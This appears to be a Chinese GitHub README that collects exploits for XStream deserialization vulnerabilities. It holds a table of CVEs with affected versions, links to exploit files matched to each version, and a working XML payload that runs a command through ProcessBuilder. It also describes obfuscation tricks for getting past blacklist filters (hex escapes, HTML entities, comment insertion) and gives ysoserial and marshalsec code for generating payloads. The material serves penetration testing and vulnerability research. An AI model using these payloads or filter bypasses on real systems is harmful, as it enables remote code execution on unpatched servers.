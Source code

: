 # Xstream

>该项目是为了整理Xstream的exp，有一些没有测试成功，欢迎pr。
>
>本来想写一个工具了生成exp，然后感觉这样整理出来也比较方便。。。。。懒。。

| XStream 远程代码执行漏洞 | CVE-2013-7285                                                | 1.4.x<XStream <= 1.4.6&=1.4.10 |
| ------------------------ | ------------------------------------------------------------ | ------------------------------ |
| XStream XXE              | [CVE-2016-3674](https://x-stream.github.io/CVE-2016-3674.html) | 1.4.x<`XStream` <= 1.4.8       |
| XStream 远程代码执行漏洞 | CVE-2019-10173                                               | `XStream` = 1.4.10             |
| XStream 远程代码执行漏洞 | [CVE-2020-26217](https://x-stream.github.io/CVE-2020-26217.html) | 1.4.x<`XStream` <= 1.4.13      |
| XStream 远程代码执行漏洞 | [CVE-2021-21344](https://x-stream.github.io/CVE-2021-21344.html) | 1.4.x<`XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21345](https://x-stream.github.io/CVE-2021-21345.html) | 1.4.x<`XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21346](https://x-stream.github.io/CVE-2021-21346.html) | 1.4.x<`XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21347](https://x-stream.github.io/CVE-2021-21347.html) | 1.4.x<`XStream`<= 1.4.15       |
| XStream 远程代码执行漏洞 | [CVE-2021-21350](https://x-stream.github.io/CVE-2021-21350.html) | 1.4.x<`XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21351](https://x-stream.github.io/CVE-2021-21351.html) | 1.4.x<`XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-29505](https://x-stream.github.io/CVE-2021-29505.html) | 1.4.x<`XStream`: <= 1.4.16     |
| XStream 远程代码执行漏洞 | CVE-2021-39141                                               | 1.4.x<`XStream`: <= 1.4.17     |
| XStream 远程代码执行漏洞 | CVE-2021-39144                                               | 1.4.x<`XStream`: <= 1.4.17     |
| XStream 远程代码执行漏洞 | CVE-2021-39146                                               | 1.4.x<`XStream`: <= 1.4.17     |
| XStream 远程代码执行漏洞 | CVE-2021-39148                                               | 1.4.x<`XStream`: <= 1.4.17     |
| XStream 远程代码执行漏洞 | CVE-2021-39152                                               | 1.4.x<`XStream`: <= 1.4.17     |
| XStream 远程代码执行漏洞 | CVE-2021-39154                                               | 1.4.x<`XStream`: <= 1.4.17     |



## 利用规则

  <1.4.6        [CVE-2013-7285](exp/RCE/CVE-2013-7285.xml)
  
 =1.4.10       [CVE-2019-10173](exp/RCE/CVE-2019-10173.xml)  && [CVE-2013-7285](exp/RCE/CVE-2013-7285.xml)
 
<=1.4.13      [CVE-2020-26217](exp/RCE/CVE-2020-26217.xml)

<=1.4.15      [CVE-2021-21345](exp/RCE/CVE-2021-21345.xml) &&  [CVE-2021-21344](exp/RCE/CVE-2021-21344.xml)  &&  [CVE-2021-21351](exp/RCE/CVE-2021-21351.xml)

<=1.4.16      [CVE-2021-29505](exp/RCE/CVE-2021-29505.xml)

<=1.4.17      [CVE-2021-39141](exp/RCE/CVE-2021-39141.xml) && [CVE-2021-39144](exp/RCE/CVE-2021-39144.xml) && [CVE-2021-39146](exp/RCE/CVE-2021-39146.XML)



## 绕过

eg：

```java
<sorted-set>
    <string></string>
    <dynamic-proxy>
        <interface>ja<!-- -->va<!-- -->.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.Pro&#99;essBuilder">
                <command>
                    <string>&#99;a<!-- test -->lc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```



```xml
1. 16进制绕过

<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
当前黑名单为org[.]springframework，此时的绕过方法可以为
<org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
</org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>

2. 针对标签属性内容的绕过

<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="custom">
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
此时的黑名单为custom，那么绕过方法可以为

<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="cust&#111;m">
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
原理为读取属性内容时，会做符合要求的转化

3. 针对标签内容的绕过
<test>
ldap://xxxxx
</test>
此时的黑名单为ldap://，可以用如下的几种方法绕过

html编码:
这部分在提取数据时，同样对html编码的内容做了转化
<test>
&#108;dap://xxxxx
</test>

注释的方法:
在处理实际的标签内容时，遇到注视内容将被忽略掉
<test>
ld<!-- test -->ap://xxxxx
</test>
```


## 工具生成poc


```
java.exe -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream
```



配合yso生成xstream的exp。添加Xstream组件依赖

```java
package ysoserial.exploit;

import clojure.lang.IFn;
import com.thoughtworks.xstream.XStream;
import ysoserial.payloads.ObjectPayload;

@SuppressWarnings({
    "rawtypes"
})

public class Xstream {
    public static void main(String[] args) {
        if(args.length<2){
            System.out.println("exit");
        }
        final Object payloadObject = ObjectPayload.Utils.makePayloadObject(args[0],args[1]);
        com.thoughtworks.xstream.XStream xstream = new XStream();
        //System.out.println(payloadObject);
        String s = xstream.toXML(payloadObject);
        System.out.println(s);
        ObjectPayload.Utils.releasePayload(args[0],payloadObject);
    }
}
```



